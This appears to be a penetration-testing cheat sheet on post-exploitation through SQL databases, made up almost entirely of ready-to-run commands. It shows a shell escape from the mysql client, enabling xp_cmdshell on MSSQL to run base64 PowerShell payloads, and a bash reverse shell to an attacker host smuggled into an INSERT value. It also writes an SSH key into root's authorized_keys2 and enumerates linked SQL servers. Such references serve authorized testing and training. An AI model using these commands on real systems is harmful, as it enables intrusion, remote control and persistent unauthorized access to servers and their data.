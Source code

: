 #### <mark style="color:yellow;">**Drop a Shell**</mark>

```
mysql> \! /bin/sh
```

#### <mark style="color:yellow;">**xp\_cmdshell**</mark>

```
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```

```
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

You can also execute base 64 encoded commands:

```bash
SQL> xp_cmdshell "powershell -e <B64_PAYLOAD>" #Get the payload from https://www.revshells.com/
```

#### <mark style="color:yellow;">**Insert Code to get executed**</mark>

```
mysql> insert into users (id, email) values (<LPORT>, "- E $(bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1')");
```

#### <mark style="color:yellow;">**Write SSH Key into authorized\_keys2 file**</mark>

```
mysql> SELECT "<KEY>" INTO OUTFILE '/root/.ssh/authorized_keys2' FIELDS TERMINATED BY '' OPTIONALLY ENCLOSED BY '' LINES TERMINATED BY '\n';
```

#### <mark style="color:yellow;">**Linked SQL Server Enumeration**</mark>

```
SQL> SELECT user_name();
SQL> SELECT name,sysadmin FROM syslogins;
SQL> SELECT srvname,isremote FROM sysservers;
SQL> EXEC ('SELECT current_user') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('SELECT srvname,isremote FROM sysservers') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('EXEC (''SELECT suser_name()'') at [<DOMAIN>\<CONFIG_FILE>]') at [<DOMAIN>\<CONFIG_FILE>];
```

### <mark style="color:blue;">**NoSQL Injection**</mark>
